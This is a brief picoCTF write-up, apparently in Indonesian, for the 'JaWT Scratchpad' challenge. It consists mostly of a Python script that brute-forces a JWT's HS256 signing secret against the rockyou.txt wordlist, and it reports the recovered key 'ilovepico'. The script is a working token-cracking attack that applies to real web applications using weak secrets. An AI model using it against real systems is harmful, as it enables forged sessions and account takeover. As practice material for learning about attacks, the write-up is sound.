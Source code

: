 <h1>JaWT Scratchpad</h1>
<h3>Description</h3>
<p>Check the admin scratchpad! https://jupiter.challenges.picoctf.org/problem/58210/ or http://jupiter.challenges.picoctf.org:58210</p>
<h3>Solution</h3>

```python3
import base64
import hmac
import hashlib
import json

header = '{"typ":"JWT","alg":"HS256"}'
header_base64 = base64.urlsafe_b64encode(header.encode()).decode().rstrip("=")

payload = '{"user":"data"}'
payload_base64 = base64.urlsafe_b64encode(payload.encode()).decode().rstrip("=")

jwt_encode = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGF0YSJ9.Gmiw_NxJYCLkCHJxYfkVHfNRqeMDC_xC-mYzFQFV0UI"
message = f"{header_base64}.{payload_base64}".encode()

with open("../Tools/rockyou.txt", "r",errors="ignore") as file:
    for line in file:
        secret_key = line.strip()
        signature = hmac.new(secret_key.encode(), message, hashlib.sha256).digest()
        signature_base64 = base64.urlsafe_b64encode(signature).decode().rstrip("=")
        result = f"{header_base64}.{payload_base64}.{signature_base64}"
        if result == jwt_encode:
            print(f"Secret key found: {secret_key} - Success!")
            print(result)
            break
        else:
            pass
```
<p>Secretnya <b>ilovepico</b></p>
<h3>Flag</h3>
<pre>
  
</pre>
